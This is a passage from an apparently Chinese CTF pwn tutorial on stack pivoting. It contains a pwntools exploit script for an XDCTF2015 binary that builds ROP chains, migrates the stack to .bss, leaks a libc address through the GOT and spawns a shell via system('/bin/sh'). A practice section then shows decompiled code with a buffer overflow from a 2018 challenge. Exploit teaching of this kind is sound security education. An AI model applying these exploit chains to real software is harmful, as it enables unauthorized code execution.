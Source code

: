  ```java 

r.recvuntil('Welcome to XDCTF2015~!\n')
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
print rop.dump()
r.sendline(rop.chain())

## getshell
rop = ROP('./bed0c68697f74e649f3e1c64ff7838b8')
rop.write(1, read_got, 0x4)
rop.read(0,base_stage+0x28,0x100)
rop.raw('a' * ( 50 - len(rop.chain())))
print rop.dump()
gdb.attach(r)
r.sendline(rop.chain())

libc.address = u32(r.recv(4)) - read_libc
payload = flat([libc.sym['system'],'bbbb',next(libc.search('/bin/sh'))])
r.sendline(payload)
r.interactive()

  ``` 
  
 
### 实践 
以2018年安恒杯中over题目为例子： 
 
 ```java 
  __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  while ( sub_400676() )
    ;
  return 0LL;
}
int sub_400676()
{
  char buf; // [rsp+0h] [rbp-50h]
  memset(&buf, 0, 0x50uLL);
  putchar(62);
  read(0, &buf, 0x60uLL);
  return puts(&buf);
}

  ``` 
  